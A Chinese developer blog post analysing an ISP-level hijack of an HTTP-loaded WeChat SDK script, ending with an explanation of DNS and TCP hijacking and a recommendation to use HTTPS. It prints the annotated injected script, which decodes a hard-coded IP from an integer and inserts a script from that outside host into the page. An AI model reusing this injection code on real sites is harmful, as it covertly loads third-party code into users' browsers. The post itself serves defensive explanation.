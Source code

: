 ```yaml
---
Title: 记一次流量劫持
Tags: 编码
PublishDate: 2018/9/17 15:15
---
```


又是填队友坑，拿到代码本地启动后发现神奇的一幕，页面被劫持插入了广告，弹出几秒钟后消失。

![jc0](http://wx3.sinaimg.cn/large/007113CZgy1fvcl8cuxcsj30bf037dgb.jpg)

让我来看看这是咋回事，因为某个微信 sdk 使用了 http，该 JS 脚本的响应结果被篡改替换了。

![jc2](http://wx3.sinaimg.cn/large/007113CZgy1fvcl8i86ugj30kq01dwei.jpg)

![jc3](http://wx4.sinaimg.cn/large/007113CZgy1fvcl8ncohpj31370ia0va.jpg)

**http://res.wx.qq.com/open/js/jweixin-1.2.0.js** 该请求因为使用了 http 给了流量劫持可乘之机，未能返回正确的脚本内容，而是返回了一个被精心构造的恶意脚本。

简单分析下这个恶意脚本做了啥，我们 http 请求 **http://res.wx.qq.com/open/js/jweixin-1.2.0.js** 的响应结果被劫持替换成了下面的脚本，这个脚本又再次构造请求带上标识符去拿到真实的内容，同时将自己的恶意脚本注入到页面上。


```javascript
!function(e, t, n, o, r, i, a, c) {
    // 这里有意思了，之后后会发现变量 c 的结果是一个 IP 地址
    // "124.232.160.178"
    // 这个 IP 地址加上拼凑的字符串变成了 http://124.232.160.178/v1/a/?u=0 
    // 通过 insertBefore 注入了恶意脚本
    c = function(e, t, n) {
        for (t = e % 256,
        n = 3; 0 < n; n--)
            t = (e = Math.floor(e / 256)) % 256 + "." + t;
        return t
    }(2095620274),
    (a = function(e) {
        r = t.createElement(n),
        i = t.getElementsByTagName(n)[0],
        r.src = "//" + e,
        i.parentNode.insertBefore(r, i)
    }
    // 这儿有点意思，似乎是为了避免重复劫持，
    // 通过时间戳和标识符再次请求我们需要的脚本，
    // 这次返回的是真实未被篡改的脚本内容
    )(o + (0 < o.indexOf("?") ? "&" : "?") + "_t" + (new Date).getTime() + "=0i"),
    // 注入恶意脚本 http://124.232.160.178/v1/a/?u=0 
    a(c + "/v1/a/?u=0")
}(window, document, "script", "res.wx.qq.com/open/js/jweixin-1.2.0.js");
```

所以解决问题的办法就是把页面上的 http 替换成 https 或是把资源放到本地存储。顺手查一下这个 IP 地址的信息发现了一些有意思的事情，这回是哪个临时工背锅呢？

![jc4](http://wx1.sinaimg.cn/large/007113CZgy1fvcl8rf54hj30fu057glv.jpg)

![jcyys](http://wx1.sinaimg.cn/mw690/007113CZgy1fvcl8y06f5j30kf0l7417.jpg)

**流量劫持与防治**

从输入 url 到显示网页所经历的几个过程应该都清楚

1. 首先通过递归轮询 DNS 解析域名获得主机 IP 地址
2. 访问主机 IP 获取资源

因为 Web 是建立在 HTTP 协议上的，这个协议既不能维持状态，又是明文传输，中间链路上任何设备都可以篡改其内容，谁要是想搞点小心思简直轻而易举。流量劫持本身就可以发生在第一步，即解析获得 IP 地址这个过程，有以下可能的劫持方式：

* 如果我们的 DNS 受到污染返回了伪造的主机 IP 那就 GG 了，而解析 DNS 会先尝试本地解析，比如前端经常会修改的 hosts 文件，这个文件是可以被恶意软件篡改的。

* 如果本地解析没有命中，那么浏览器本身也会尝试在自己的缓存中查找，如果找不到就会去域名服务器查询，公共的域名服务器也就是我们在网上邻居里配的哪个，通常默认由 ISP 服务商提供，如果 ISP 提供的域名服务器找不到才会去顶级域名服务器发起查询，再往上就是根域名服务器。那么问题来了，如果 ISP 提供的域名查询服务器作恶或是被黑客控制咋办，那影响就大了，因此只能自己配置权威可信的第三方域名解析服务器，比如`8.8.8.8` 或者 `阿里公共 DNS`等。
* 访问主机获取资源时，如果 TCP 链路中某个设备抢先服务器一步发送了伪造的响应包，那么正常的响应包就会被忽略，这样我们的请求就被劫持了，收到了被篡改伪造的内容，它可以随意插入广告和木马或是钓鱼，而且这种劫持要深入到网络层去抓包才能定位。

从根本上解决劫持的策略就是启用 https，或许我们也可以通过监控页面的资源加载，然后上报比对关键信息来获知页面在用户侧是否遭到了篡改，但这个成本就更大了。